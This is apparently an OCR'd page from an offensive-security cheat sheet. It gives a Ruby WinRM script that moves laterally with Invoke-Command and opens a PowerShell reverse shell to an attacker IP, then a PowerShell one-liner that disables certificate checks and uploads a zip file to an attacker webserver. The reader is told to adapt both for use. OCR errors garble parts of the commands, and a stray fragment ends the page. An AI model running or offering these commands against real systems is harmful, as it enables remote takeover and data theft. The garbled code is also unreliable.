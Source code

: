 ```
require 'winrm'

conn = WinRM::Connection.new( 
  endpoint: 'https://ip:port/wsman',
  transport: :ssl,
  user: 'username',
  password: 'pass',
  :no_ssl_peer_verification => true
)

conn.shell(:powershell) do |shell|
  output = shell.run("$pass = convertto-securestring -AsPlainText -Force -String 'pass'; $cred = new-object -typename System.Management.Automation.PSCredential -argumentlist 'test.local\\username',$pass; Invoke-Command -ComputerName machine.test.local -Credential $cred -Port 5985 -ScriptBlock {$client = New-Object System.Net.Sockets.TCPClient('your-ip',port); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0}; while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {; $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i); $sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> '; $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2); $stream.Write($sendbyte,0,$sendbyte.Length); $stream.Flush()}; $client.Close(); }") do |stdout, stderr|
    STDOUT.print stdout
    STDERR.print stderr
  end
  puts "The script exited with exit code #{output.exitcode}"
end
```

### Data Exfiltration

**Exfiltration to a Webserver with PowerShell** The below command will send the `master.zip` file to a webserver hosted by the attacker. Make sure to change the parameters to fit your environment.

```
powershell.exe -noprofile -noninteractive -command "[System.Net.ServicePointManager] ::ServerCertificateValidationCallback
{$true); $server="""http://ATTACKER-IP/upload-path""";$filepath="""C:\rnaster.zip""";$http= new=object System.Net.WebClient;
$response=$http.UploadFile($server,$filepath);"
```


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"